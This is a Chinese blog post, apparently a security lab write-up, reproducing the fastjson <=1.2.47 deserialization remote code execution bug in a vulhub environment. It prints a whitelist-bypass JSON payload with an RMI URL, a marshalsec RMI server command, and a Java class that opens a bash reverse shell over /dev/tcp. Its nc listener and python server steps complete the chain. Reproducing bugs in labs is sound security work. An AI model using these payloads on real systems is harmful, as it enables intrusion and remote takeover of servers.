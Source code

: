 ```yaml
---
layout: post
title: fastjson<=1.2.47远程代码执行漏洞复现
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - fastjson
  - java
  - RCE
---
```


Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。
 

## 0x01 攻击思路
![](/img/in-post/fastjson<=1.2.47远程代码执行漏洞复现/1.png)
## 0x02 环境搭建
我用的vulhub上的fastjson环境进行复现，项目地址：
> [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)   

执行如下命令启动一个spring web项目，其中使用fastjson作为默认json解析器：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`即可看到一个json对象被返回，我们将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析。

## 0x03 测试漏洞
准备一台服务器监听流量  
`nc -lvp 7777`  
发送如下payload，将IP改为监听服务器IP  
```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://your-ip:7777/Exploit",
        "autoCommit":true
    }
}
```
如果监听服务器有流量，说明存在漏洞，可以继续下一步  

![](/img/in-post/fastjson<=1.2.47远程代码执行漏洞复现/2.png)
## 0x04 准备RMI服务和Web服务
首先我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口  

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://your-ip:port/#Exploit" 9999
```
然后我们准备Exploit.java攻击代码，由于该漏洞没有回显，所以我使用命令反弹shell，你们也可以修改成你们执行的代码

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/ip/port 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```

将上述payload上传到RMI服务同一目录，使用`javac Explpit.java`编译成class文件，然后通过python开启一个web服务：`python -m SimpleHTTPServer 80`

## 0x05 准备
回顾一下，现在目录应该有三个文件

```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web

```
LDAP Server：Listening on 0.0.0.0:9999
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL

```
nc -lvp 8000
```

## 0x06 执行
抓包，向靶场服务器发送Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://ip:9999/Exploit",
        "autoCommit":true
    }
}
```

![](/img/in-post/fastjson<=1.2.47远程代码执行漏洞复现/3.png)

接下来如果没有任何报错的话，RMI将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行
你的RMI服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

![](/img/in-post/fastjson<=1.2.47远程代码执行漏洞复现/4.png)
## 0x07 注意
由于攻击过程需要搭建两个服务，RMI和web，所以攻击思路一定要清晰，我们在漏洞点通过payload请求RMI服务上的Exploit类，RMI服务器接收到请求后加载远程web服务上的Exploit类，从而执行恶意代码。所以启动RMI服务的时候记住请求http服务是python开启的web ip和端口，最后的是RMi服务自己监听的端口，不要搞错了。

另外，当javac版本和目标服务器差太多，会报一个这样得到错误，所以需要使用1.8的javac来编译Exploit.java